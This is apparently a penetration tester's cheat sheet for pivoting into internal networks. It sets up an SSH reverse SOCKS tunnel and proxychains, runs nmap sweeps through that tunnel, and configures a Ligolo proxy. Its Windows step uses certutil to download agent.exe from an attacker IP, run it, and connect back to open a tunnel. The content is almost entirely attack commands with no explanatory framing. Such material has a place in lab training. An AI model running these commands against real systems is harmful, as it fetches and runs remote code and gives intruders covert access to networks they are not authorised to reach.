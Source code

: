 # Port Forwarding

## SSH

```jsx
ssh -N -R 9998 kali@192.168.118.4
```

```jsx
sudo ss -ntplu
```

```jsx
sudo nano /etc/proxychains4.conf
tail /etc/proxychains4.conf
--last line--> socks5 127.0.0.1 9998
```

```jsx
proxychains nmap -sn 10.4.197.0/24
```

```jsx
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64
```

## Ligolo

### Ligolo Setup

```jsx
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

```jsx
certutil -urlcache -split -f http://192.168.45.218/agent.exe /Windows/Temp/agent.exe
/Windows/Temp/agent.exe -connect 192.168.45.218:11601 -ignore-cert
```

```jsx
session
1
ifconfig
```

```jsx
sudo ip route add 172.16.229.0/24 dev ligolo
```

```jsx
session
1
start
```
